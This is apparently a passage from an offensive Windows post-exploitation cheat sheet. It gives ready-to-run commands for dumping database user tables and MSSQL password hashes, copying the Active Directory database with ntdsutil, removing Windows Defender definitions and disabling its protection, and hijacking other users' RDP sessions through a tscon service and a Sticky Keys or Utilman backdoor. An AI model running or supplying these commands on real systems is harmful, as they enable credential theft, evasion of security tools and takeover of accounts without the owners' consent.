 Retrieve table contents
```
	sqlcmd -E -S localhost -d DatabaseName -Q "SELECT * FROM SystemUserBase;" -W -w 999 -s"," -o "c:\windows\temp\RecruiterProd_MSCRM_userbase.csv"
```

Dump MSSQL Password Hashes
```	
	sqlcmd -E -S localhost -Q "SELECT name, password_hash FROM master.sys.sql_logins;"
```

### NTDSUTIL
Built-in utility to create backup copy of the AD database
```	
	ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

### Applocker
List Applocker's effective policy on the system
```
	Get-ApplockerPolicy -Effective
```

### Windows Defender

Remove definitions and disable AV protection (Useful when Powershell scripts are being blocked by Defender)
```
	c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

### APPCMD

Get virtual directories in IIS
```
	c:\windows\system32\inetsrv\appcmd.exe list vdir /text:physicalpath
```

## Windows Lateral Movement

RDP Hijacking

If you have SYSTEM context on a host, you can assume the RDP sessions of other users without credentials using the tscon.exe command.

Gain access to cmd.exe to issue the tscon.exe command over RDP by creating a backdoor with Stickkeys or Utilman. Use scheduled tasks (as SYSTEM) or create a service to execute the desired command.

[RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)
```
	# View RDP sessions on system your RDP'd to with administrative permissions
	# Locally
	quser

	# Remote
	quser /server:<servername>

	# Create a service that will swap your SESSIONNAME with the desired disconnected session 
	sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#XX" error= "ignore"

	# Start service
	net start sesshijack
	or
	sc start sesshijack
```